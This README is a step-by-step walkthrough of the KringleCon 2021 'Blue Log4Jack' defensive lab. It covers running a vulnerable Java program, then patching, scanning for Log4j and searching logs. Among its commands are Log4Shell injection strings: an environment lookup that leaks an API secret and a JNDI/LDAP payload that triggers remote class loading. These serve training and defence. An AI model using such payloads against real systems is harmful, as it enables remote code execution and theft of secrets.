

# Bonus) Blue Log4Jack

 KringleCon 2021 released 2 bonus objectives in view of the Log4j RCE vulnerability that was discovered early Dec 2021:  
1. Red Log4Jack
2. Blue Log4Jack
This README is a walkthough to solving the **Blue Log4Jack** bonus objective

Hints provided by Bow Ninecandle:
- Software by the [Apache Foundation](https://logging.apache.org/log4j/2.x/manual/lookups.html) runs on devices all over the internet
- Josh Wright's [simple checker script](https://gist.github.com/joswr1ght/a6badf9b0b148efadfccbf967fcc2b41) uses the power of regex to find vulnerable Log4j libraries!
- Prof. Qwerty Petabyte is giving [a lesson](https://youtu.be/OuYMPU3-0p4) about Apache Log4j.

**No Answer Needed**

---
## Walkthrough

You can find the the Bonus stage for Blue Log4Jack at _The North Pole_.

To get to The Bonus stage of Blue Log4Jack, just head to _The North Pole_. Right between the Santa's Castle and Frost Tower is the Bonus! Blue Log4Jack terminal with Bow Ninecandle beside.  
First reach out to Bow Ninecandle to understand the situation.

---
## Solution

Bow Ninecandle asked us take a look at the `Bonus! Blue Log4Jack` terminal to defend North Pole systems from the Yule **Log4J**ack vulnerablility.

Access the terminal:  

Run `Y` to continue:  

Run the following to continue:  
`next`  
`ls` 
`cd vulnerable`  
`ls`
`cat DisplayFilev1.java`  

Run the following to continue:  
`javac DisplayFilev1.java`  
`java DisplayFilev1 testfile.txt`
`java DisplayFilev1 testfile2.txt`

Run the following to continue: 
`next`  
`cat DisplayFilev2.java`  
  

Run the following to continue:  
`next`  
`javac DisplayFilev2.java`  
`java DisplayFilev2 testfile2.txt`  
  

Run the following to continue:  
`next`  
`java DisplayFilev2 '${java:version}'`  
`java DisplayFilev2 '${env:APISECRET}'`  
  

Run the following to continue:  
`next`  
`/Startserver.sh`  
  

Run the following to continue:  
`java DisplayFilev2 '${jndi:ldap://127.0.0.1:1389/Exploit}'`  
  

Press `CTRL+C` to continue.  
 

Run the following to continue:  
`cd ~/patched`  
`ls`  
`source classpath.sh`  
`javac DisplayFilev2.java`  
`java DisplayFilev2 '${java:version}'`  
  

Run the following to continue:  
`cd`  
`./log4j2-scan vulnerable`  
`./log4j2-scan patched`  
`./log4j2-scan /var/www/solr`  
  

Run the following to continue:  
`next`  
`ls /var/log/www`  
`cat logshell-search.sg`  
 

Run the following to continue:  
`./logshell-search.sh /var/log/www`  
`./logshell-search.sh /var/log/www | sed '1!d'`  
`./logshell-search.sh /var/log/www | sed '2!d'`  
`./logshell-search.sh /var/log/www | sed '3!d'`  
 

Run the following to continue and end the walkthrough to get the achievement:  
`next`  
  